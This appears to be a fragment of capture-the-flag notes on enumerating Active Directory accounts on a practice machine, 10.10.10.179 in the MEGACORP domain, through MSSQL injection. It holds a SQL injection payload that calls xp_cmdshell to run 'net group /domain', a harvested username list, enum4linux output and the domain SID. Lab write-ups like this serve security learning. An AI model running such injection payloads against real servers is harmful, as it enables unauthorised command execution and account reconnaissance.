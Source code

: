 Just because the usernames I got were in the database does not mean they can login to this machine. Maybe need to enumerate users from the the domain in another way since ldap and rpc were not helpful [https://kalilinuxtutorials.com/mssql-injection](https://kalilinuxtutorials.com/mssql-injection) [https://github.com/Keramas/mssqli-duet](https://github.com/Keramas/mssqli-duet) [https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

[https://www.sqlservercentral.com/forums/topic/how-to-retrieve-active-directory-user-information-through-sql-server\`](https://www.sqlservercentral.com/forums/topic/how-to-retrieve-active-directory-user-information-through-sql-server`)' -- exec xp\_cmdshell 'net group /domain'\` returns same list as earlier user enumeration

```text
USERS list
james
dai
tushikikatomo
zac
lana
andrew
jorden
alyx
cyork
rmartin
DnsAdmins
DnsUpdateProxy
svc-nas
svc-sql
ckane
kpage
ilee
nPourne
```

from enum4linux

```text
 =========================================== 
|    Getting domain SID for 10.10.10.179    |
 =========================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
Domain Name: MEGACORP
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
[+] Host is part of a domain (not a workgroup)
```

[https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253](https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253) [https://froosh.wordpress.com/2005/10/21/hex-sid-to-decimal-sid-translation/](https://froosh.wordpress.com/2005/10/21/hex-sid-to-decimal-sid-translation/) SID in HEX `0x0105000000000005150000001C00D1BCD181F1492BDFC23600020000`

[https://securityonline.info/mssqli-duet-sql-injection-script-for-mssql/](https://securityonline.info/mssqli-duet-sql-injection-script-for-mssql/) [https://github.com/Keramas/mssqli-duet](https://github.com/Keramas/mssqli-duet)
